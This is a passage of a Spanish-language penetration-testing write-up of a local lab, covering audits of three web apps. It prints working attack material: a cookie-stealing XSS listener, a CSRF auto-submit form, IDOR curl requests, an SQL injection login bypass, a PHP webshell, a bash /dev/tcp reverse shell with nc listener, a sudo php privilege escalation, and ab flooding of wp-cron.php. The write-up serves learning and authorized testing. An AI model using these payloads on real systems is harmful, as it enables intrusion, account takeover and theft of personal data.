

Se renderiza como HTML real. Subiendo la apuesta, `alert("stored xss")`:



Y con un payload de exfiltración (``) y un listener propio:

```bash
python3 -m http.server 8888
```



La cookie de sesión llega al listener en texto plano. Encadenado con el hallazgo 1️⃣ (cookie sin `HttpOnly`), esto es **robo de sesión confirmado de punta a punta**.

</details>

<details>
<summary><b>9️⃣ XSS reflejado en el buscador → mismo resultado, por enlace</b></summary>

<br>

El parámetro `q` de `search.php` también refleja HTML sin escapar:



Mismo payload de robo de cookie, pero esta vez basta un **enlace** (ni falta cuenta en la plataforma):



</details>

<details>
<summary><b>🔟 Reviews ilimitadas: rating bombing</b></summary>

<br>

El mismo usuario puede enviar reviews infinitas sobre el mismo producto, sin ningún límite:



Un atacante (sin haber comprado nada) podría destrozar la valoración media de cualquier producto.

</details>

<details>
<summary><b>1️⃣1️⃣ CSRF en el envío de reviews — y una protección inconsistente</b></summary>

<br>

La petición de "añadir review" no lleva ningún token:



```http
POST /api/add_review.php HTTP/1.1
Cookie: PHPSESSID=<session>

product_id=wl-boardshort-reef&rating=5&body=hey
```

PoC: un HTML con un formulario que se autoenvía, servido desde otro origen:

```html
<form id="csrf" action="http://172.17.0.2:8080/api/add_review.php" method="POST">
  <input type="hidden" name="product_id" value="wl-boardshort-reef">
  <input type="hidden" name="rating" value="1">
  <input type="hidden" name="body" value="CSRF-POC">
</form>
<script>document.getElementById('csrf').submit()</script>
```

```bash
python3 -m http.server 9999
```



Con sesión activa, la víctima publica la review sin saberlo:



**CSRF confirmado.** Combinado con el XSS almacenado (bloque 8️⃣), ni siquiera hace falta cuenta propia para plantar el payload — basta con que cualquier usuario logueado abra el enlace.

🔍 **Bonus — protección inconsistente:** se probó el mismo ataque contra el borrado de usuarios del panel admin (`delete_user.php`). Ese endpoint **sí está protegido**: la petición cross-origin se rechazó con `302` a `/login.php` e invalidación de sesión, incluso suprimiendo la cabecera `Referer` (lo que apunta a validación por `Origin`, no bypaseable con ese truco). Conclusión: la app sabe proteger contra CSRF, pero lo hace de forma inconsistente — presente en una acción destructiva de admin, ausente en una acción de cliente normal.

</details>

<details>
<summary><b>1️⃣2️⃣ 🏆 IDOR masivo en la "Developer API" — el hallazgo con más PII filtrada</b></summary>

<br>

Buscando más superficie, apareció una página de documentación interna sin autenticación:

> **Developer API** `Beta` — *Access your orders and account data programmatically. Authenticate using your session cookie.*
> - `GET /api/orders/{id}` — Retrieve an order by ID
> - `GET /api/users/{id}` — Retrieve a user profile by ID
> - `GET /api/users/{id}/address` — Retrieve a user shipping address

Primera prueba, con sesión de **admin** → sí, admin ve todo (comportamiento esperable, no concluyente). La prueba que de verdad importa: repetirlo **logueado como `prueba`** (cliente normal, cero privilegios), pidiendo IDs que no son los suyos:



```bash
curl -s -b "PHPSESSID=<cookie de 'prueba'>" http://172.17.0.2:8080/api/users/2
```


Perfil completo de **Diego Marín** — no es su cuenta. **IDOR confirmado.** Y no se queda ahí:

```bash
curl -s -b "PHPSESSID=<cookie de 'prueba'>" http://172.17.0.2:8080/api/users/2/address
```



Su **dirección física y teléfono reales**.

```bash
curl -s -b "PHPSESSID=<cookie de 'prueba'>" http://172.17.0.2:8080/api/orders/6
```



Un pedido completo **del propio administrador**.

Recorriendo `id=1` a `id=11` en bucle se obtienen los **9 perfiles completos de la plataforma** (email, nombre, rol — incluido un rol interno `staff` que no se había visto antes), **7 direcciones físicas con teléfono**, y **8 pedidos completos** con artículos y precios. Todo desde la cuenta de menor privilegio posible.

**El hallazgo con mayor volumen de datos reales filtrados de toda la auditoría** — en un contexto real, esto sería una brecha de datos personales con implicaciones de RGPD.

</details>

---

## 🎮 PixelForge (puerto 10000)

Una tienda de videojuegos digitales. Mismo stack que PenguinWave (Apache + PHP), pero con fallos de otra naturaleza — y una cadena de compromiso bastante más seria.

### Descubrimiento de contenido

```bash
ffuf -u http://172.17.0.2:10000/FUZZ \
     -w SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt \
     -e .php,.html,.bak,.zip,.txt,.old,.json -t 40
```

A diferencia de PenguinWave, aquí no hay *soft-404* (las rutas inexistentes devuelven un 404 real), así que el resultado sale limpio: `login.php`, `register.php`, `forgot-password.php`, `store.php`, `cart.php`, `deals.php`, `account.php`, `dashboard.php` (solo accesible como admin), y los directorios `images/`, `inc/`, `uploads/` (sin listado, correcto). El parámetro `game.php?id=<slug>` no salió por ffuf — se encontró en los enlaces de la propia home.

### Cronología de la auditoría

<details open>
<summary><b>1️⃣ 🏆 Inyección SQL en login.php — toma de la cuenta administradora</b></summary>

<br>

El campo `username` del login se concatena directamente en la consulta SQL. Una comilla simple basta para confirmarlo:

```
Database error: You have an error in your SQL syntax; check the manual
that corresponds to your MariaDB server version... near
'9dd4e461268c8034f5c8564e155c67a6'' at line 2
```

El hash reflejado en el error es `md5("x")` — la contraseña de prueba enviada, confirmando de paso que las contraseñas se guardan en MD5 sin salt. El bypass completo:

```
POST /login.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded

username=' OR '1'='1' -- -&password=x
```



`302 Found`, `Location: /dashboard.php` — sesión de **administrador**, sin ninguna credencial real:



**Detalle interesante:** `login.php` también acepta el login por JSON (`fetch()`, lo que usa la web normalmente) — se repitió toda la batería de pruebas (comilla, bypass por comentario, `SLEEP(5)`) específicamente contra esa vía, sin éxito en ninguna. Solo el formulario clásico (`x-www-form-urlencoded`) es inyectable — probablemente el resto de un login antiguo que nunca se borró al migrar a un flujo AJAX más moderno. Una buena lección: **un "no vulnerable" solo vale para la forma de petición que probaste.**

</details>

<details>
<summary><b>2️⃣ 🏆 Subida de avatar sin restricciones → ejecución remota de código</b></summary>

<br>

El formulario "Change profile picture" de `account.php` no valida extensión ni contenido, no renombra el fichero, y lo guarda en `/uploads/`, servido con PHP activo. Subiendo:

```php
<?php if(isset($_GET['cmd'])){ echo "<pre>"; system($_GET['cmd']); echo "</pre>"; } ?>
```

```bash
curl "http://172.17.0.2:10000/uploads/shell.php?cmd=id"
# uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**RCE confirmada.** Y no hace falta ser admin: se repitió con una cuenta de cliente autoregistrada al vuelo (sin verificación de email, contraseña de 1 carácter aceptada) con idéntico resultado — **dos rutas independientes** (SQLi directa, o autoregistro trivial) llegan al mismo RCE.

También se probó un `.svg` con `onload="alert(document.domain)"` — ejecuta JS al abrirlo directamente (no al verlo como ``), confirmando que no hay ningún filtrado, ni siquiera una whitelist básica de imágenes.

Los webshells de prueba se autoeliminaron tras confirmar la ejecución (`cmd=rm+-f+...`) — no queda ningún artefacto en el servidor del laboratorio.

</details>

<details>
<summary><b>3️⃣ Escalada de privilegios local (www-data → pepe) vía sudo mal configurado</b></summary>

<br>

Con el RCE, `sudo -l` revela:

```
User www-data may run the following commands on 8f74d00e817f:
    (pepe) NOPASSWD: /usr/bin/php
```

`php` está catalogado en [GTFOBins](https://gtfobins.github.io/gtfobins/php/#sudo) como vector de escalada por `sudo`. Reverse shell como `pepe`:

```bash
# escribir el payload (como www-data)
curl "http://172.17.0.2:10000/uploads/shell.php" -G \
  --data-urlencode "cmd=echo 'bash -i >& /dev/tcp/<IP>/4444 0>&1' > /tmp/rs.sh"

# listener
nc -lvnp 4444

# disparar como pepe, abusando de la regla sudo
curl "http://172.17.0.2:10000/uploads/shell.php" -G \
  --data-urlencode "cmd=sudo -u pepe /usr/bin/php -r 'system(\"bash /tmp/rs.sh\");'"
```

```
Connection received on 172.17.0.2 59394
pepe@8f74d00e817f:/var/www/gamestore/uploads$
```

`pepe` tiene shell real (`/bin/bash`) y más acceso al filesystem que `www-data` — la puerta de entrada a los dos hallazgos siguientes.

</details>

<details>
<summary><b>4️⃣ Secretos y credenciales en texto plano en inc/config.php</b></summary>

<br>

Leyendo el fichero de configuración de la app desde la shell de `pepe`: credenciales reales de base de datos, y la **contraseña real del administrador en claro**, dentro del propio código de seed:

```php
['administrator', 'admin@pixelforge.gg', md5('letmein'), 'admin', 9999],
```

Confirmado por login normal, sin SQLi ni reset de contraseña:

```bash
curl -i -X POST http://172.17.0.2:10000/login.php -d "username=administrator&password=letmein"
# 302 Found, Location: /dashboard.php
```

El mismo fichero tiene además secretos con forma de producción (PayPal, AWS, Discord, Mailgun, Cloudflare, JWT) — con fuertes indicios de ser datos de relleno del laboratorio (el `AWS_ACCESS_KEY_ID` termina literalmente en `EXAMPLE`, el sufijo oficial de la documentación de AWS). No se probó ninguno contra las APIs reales de esos proveedores — fuera del alcance autorizado. Aun así, el fallo de diseño (secretos de producción hardcodeados en texto plano, sin gestor de secretos) se documenta como crítico: en un despliegue real con valores genuinos, el impacto iría desde fraude financiero (PayPal) hasta secuestro de DNS (Cloudflare) o forjado de tokens de sesión (`JWT_SECRET`).

</details>

<details>
<summary><b>5️⃣ 🏆 Toma de cuenta del administrador por tokens de reseteo filtrados en mail.log</b></summary>

<br>

La app no tiene SMTP real: cada email "enviado" se escribe en texto plano en `/var/www/gamestore-storage/mail.log`. Disparando un reseteo de contraseña para `administrator` y leyendo el log:

```bash
curl -X POST http://172.17.0.2:10000/forgot-password.php -d "username=administrator"
tail -20 /var/www/gamestore-storage/mail.log
```

```
Subject: Reset your PixelForge password
    http://172.17.0.2:10000/reset-password.php?token=8b7c7cb0365002186a4f83bd4d07168a
```

Abriendo ese enlace se pudo fijar una contraseña nueva para `administrator` — **confirmado de principio a fin**, cambiada a `administrator`/`administrator`. Se recopilaron y analizaron 4 tokens reales buscando un patrón predecible (hipótesis `md5(timestamp)`, comparación byte a byte entre tokens generados con 10s de diferencia): **no se encontró ninguno** — el token en sí parece generado correctamente, el fallo es únicamente que nunca debería haber sido legible desde el servidor.

**Esta es la segunda ruta independiente de toma de cuenta administradora** de PixelForge, sin relación con la inyección SQL del hallazgo 1️⃣.

</details>

<details>
<summary><b>6️⃣ Política de registro débil → segunda ruta independiente hasta el mismo RCE</b></summary>

<br>

`register.php` no aplica ninguna validación real: contraseña de 1 carácter aceptada, sin verificación de email, cuenta operativa al instante con 50 créditos de bienvenida. Esto por sí solo no es crítico — lo que importa es que **elimina toda fricción** para llegar al formulario de subida de avatar (bloque 2️⃣) sin pasar por la inyección SQL del bloque 1️⃣:

```
POST /register.php  username=qatester2&password=b   → 302 Location: /login.php
POST /login.php     username=qatester2&password=b   → 302 Location: /account.php
POST /account.php   avatar=qa_shell.php              → 302 Location: /account.php
GET  /uploads/qa_shell.php?cmd=id                     → uid=33(www-data)
```

**Dos rutas independientes, mismo resultado:** SQLi directa (0 registros) o autoregistro trivial (0 credenciales reales) — ambas llegan al mismo RCE. Si se arreglara solo una de las dos, la otra seguiría siendo plenamente explotable.

</details>

---

## 🌐 WordPress (puerto 80)

Tienda/escuela de surf ficticia, "Salt & Stoke Surf Co.". Auditoría **en curso**.

### Reconocimiento

Accediendo directamente por IP (`172.17.0.2`) se sirve el vhost **por defecto** de Apache (instalación WordPress genérica, "Hello world!") — el sitio real solo aparece enviando `Host: bigshop.local`, confirmando virtual-hosting:

```bash
echo "172.17.0.2  bigshop.local" | sudo tee -a /etc/hosts
```



Reconocimiento manual de las rutas críticas de WordPress, antes de automatizar:

| Ruta | Resultado |
|---|---|
| `/wp-json/wp/v2/users` | Lista usuarios sin autenticación |
| `/xmlrpc.php` | Habilitado — acepta `POST` |
| `/wp-cron.php` | Accesible, se ejecuta en cada visita |

WPScan confirma y amplía el reconocimiento manual (output completo en [`scans/wpscan-bigshop-puerto80.txt`](scans/wpscan-bigshop-puerto80.txt)):

```bash
wpscan --url http://bigshop.local -e vp,vt,u --random-user-agent
```

WordPress 7.1.4 (última versión), tema **Twenty Twenty-One** al día (sin CVEs), plugin **`booking-calendar-pro` v2.4.1** con un XSS reflejado conocido vía `calendar_id` ([CVE-2024-12077](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-12077), *pendiente de explotar*), registro de usuarios abierto, y 29 usuarios enumerados.

### Cronología de la auditoría

<details open>
<summary><b>1️⃣ Enumeración masiva de usuarios sin autenticación (29 cuentas)</b></summary>

<br>

Combinando la API REST y el generador RSS (confirmado con `wpscan -e u`), se identificaron **29 cuentas reales**, incluida `admin`:



```
admin, Jack Osei, Luna De La Cruz, William Ferro, Harper Lemos, Amelia Santos,
James Moreau, Charlotte King, Ethan Walsh, ava-thompson, charlotte-king,
emma-castillo, ethan-walsh, harper-lemos, isabella-dubois, jack-osei,
james-moreau, kelly-rincon, liam-okafor, lucas-fischer, luna-delacruz,
mateo-silva, mia-nakamura, noah-bennett, oliver-reyes, sofia-marino, william-ferro
```

Diccionario completo de usuarios válidos sin adivinar ni uno — incluida la cuenta `admin`, el objetivo de mayor valor.

</details>

<details>
<summary><b>2️⃣ Denegación de servicio parcial vía wp-cron.php</b></summary>

<br>

`wp-cron.php` se ejecuta en **cada visita**, no en segundo plano. Primera prueba, sin efecto perceptible:

```bash
ab -n 5000 -c 50 -k http://bigshop.local/wp-cron.php
```

Segunda prueba, con mayor intensidad — avance notablemente más lento, interrumpida manualmente tras 12.000 de 20.000 peticiones:

```bash
ab -n 20000 -c 300 -k http://bigshop.local/wp-cron.php
```

